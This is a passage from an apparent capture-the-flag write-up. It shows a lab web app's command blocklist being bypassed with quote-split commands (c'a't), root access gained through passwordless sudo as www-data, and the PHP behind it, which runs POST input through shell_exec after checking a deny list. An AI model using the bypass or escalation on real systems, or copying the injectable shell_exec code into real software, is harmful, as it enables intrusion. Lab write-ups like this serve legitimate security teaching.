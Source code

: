 ## Bypassing command filter
It doesn't seem that that the cat command is disabled on the machine but is blocked by teh webapp. We can still execute the `cat` command by adding single quotes between the characters `'`:
```
c'a't /home/rick/second\ ingredients
```

# Third ingredient
After searching the file system I could not find anything useful. But `sudo -l` worked. 
```
User www-data may run the following commands on ip-10-10-193-131.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can execute all command as a superuser whithout a need for a password
```
sudo ls -al /root

```
```
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 May 21 06:49 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

We can do the same trick with transfering the data via nc.
Here we have the last ingredient

# Analysis
In the source code we could see why we could not use the cat command.
The code gives us an array which contains the forbidden commands `"cat", "head", "more", "tail", "nano", "vim", "vi"`. Then it [checks](https://www.php.net/manual/en/function.isset.php) is the `command` variable is not null in the (POST data)[https://www.php.net/manual/en/reserved.variables.post].

If the value of the command parameter contains a value in the cmds array it will echo the warning `Command Disabled...` 

If it it does not contain a forbidden command it will execute the given command in a shell on the server and returns the results.
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
```
